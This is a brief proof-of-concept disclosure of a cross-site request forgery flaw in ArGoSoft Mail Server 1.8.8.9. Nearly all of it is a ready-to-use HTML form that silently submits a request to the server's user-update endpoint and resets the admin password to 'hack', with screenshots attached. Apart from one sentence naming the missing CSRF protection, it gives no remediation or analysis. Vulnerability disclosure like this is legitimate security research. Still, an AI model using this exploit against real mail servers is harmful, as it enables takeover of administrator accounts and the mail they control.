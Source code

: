 # CSRF on ArGoSoft Mail Server 1.8.8.9

_____________________________________________

## About ArGo Soft Mail Server

Website: https://www.argosoft.com/rootpages/MailServer/Default
______________________________________________

## CSRF on ArGo Soft Mail Server 1.8.8.9

The ArGo Soft Mail Server dashboard does not have protection against attacks of the type Cross Site Request Forgery (CSRF), making it possible to use the exploit below to change the admin password:

´´´
<!DOCTYPE html>
<html>
<body>
	<form method="POST" action="http://192.168.56.105:80/upduser">
		<input type="text" name="realname" value="admin">
		<input type="text" name="password" value="hack">
		<input type="text" name="confirmpassword" value="hack">
		<input type="text" name="forwardaddress" value="">
		<input type="text" name="keepcopies" value="N">
		<input type="text" name="returnaddress" value="">
		<input type="text" name="fingerinfo" value="">
		<input type="text" name="respondersubject" value="">
		<input type="text" name="responderdata" value="">
		<input type="submit" value="Send">
	</form>
</body>

´´´

![a1](http://sejalivre.org/poc3/argo1.png)

![a2](http://sejalivre.org/poc3/argo2.png)
_______________________________________________
